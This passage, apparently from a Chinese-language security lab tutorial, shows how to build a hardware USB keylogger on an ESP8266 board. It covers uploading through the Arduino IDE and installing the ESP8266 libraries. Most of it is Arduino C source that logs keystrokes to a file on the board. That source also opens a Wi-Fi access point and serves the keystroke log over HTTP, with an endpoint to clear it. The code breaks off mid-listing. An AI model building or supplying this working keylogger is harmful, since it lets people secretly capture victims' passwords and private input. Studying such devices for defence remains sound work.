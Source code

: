![](../../../../assets/img/安全/实验/Misc/HID-USBKeylogger/11.jpg)

最后在端口菜单中，选择 USB2TTL 的 COM 口(除了 COM1，可能是 COM3、COM4)，然后点击“项目-上传”，将代码烧录到开发板上。

比较麻烦的部分是要安装 ESP8266 的扩展，而且有可能会头文件丢失

> 注:这里在 GitHub 上找到了 lib 文件终于能成功的在代码里 include 到,相应库放在图片目录下,解压放到 arduino 的 libraries

```C
#include <ESP8266WiFi.h>
#include <FS.h>
#include <ESPAsyncTCP.h>
#include <ESPAsyncWebServer.h>

const char *ssid = "USBKeylogger";
const char *password = "12345678";

AsyncWebServer server(80);
File logFile;

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_STA);
  WiFi.softAP(ssid,password);
  SPIFFS.begin();
  logFile = SPIFFS.open("/keyLog.txt", "a+");

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(SPIFFS, "/keyLog.txt", "text/plain");
  });

  server.on("/clear", HTTP_GET, [](AsyncWebServerRequest *request){
    logFile.close();
    logFile = SPIFFS.open("/keyLog.txt", "w");
    request->send(200, "text/plain", "Log File Cleared!");
  });

  server.begin();
```
